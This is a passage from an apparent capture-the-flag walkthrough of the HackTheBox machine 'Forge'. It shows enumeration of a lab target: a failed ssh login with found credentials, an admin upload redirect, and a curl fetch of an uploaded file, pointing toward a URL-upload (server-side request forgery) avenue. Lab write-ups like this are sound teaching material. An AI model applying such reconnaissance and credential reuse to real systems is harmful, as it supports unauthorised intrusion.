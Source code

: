 ```
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

Checking if we can access ssh with these credentials we see that it only accepts key authentication.

```
$ ssh user@forge.htb
user@forge.htb: Permission denied (publickey).
```

Taking a look at the `upload` page aswell there doesn't seem to be any additional useful information.

```php
<?php

header("Location: http://admin.forge.htb/upload");

?>
```

```
$curl http://forge.htb/uploads/xihqerFnoin7XtUJJm0a
<!DOCTYPE html>
<html>
<head>
    <title>Upload an image</title>
</head>
<body onload="show_upload_local_file()">
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/upload.css">
    <script type="text/javascript" src="/static/js/main.js"></script>
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <center>
        <br><br>
        <div id="content">
            <h2 onclick="show_upload_local_file()">
                Upload local file
            </h2>
            <h2 onclick="show_upload_remote_file()">
                Upload from url
            </h2>
            <div id="form-div">

            </div>
        </div>
    </center>
    <br>
    <br>
</body>
</html>
```
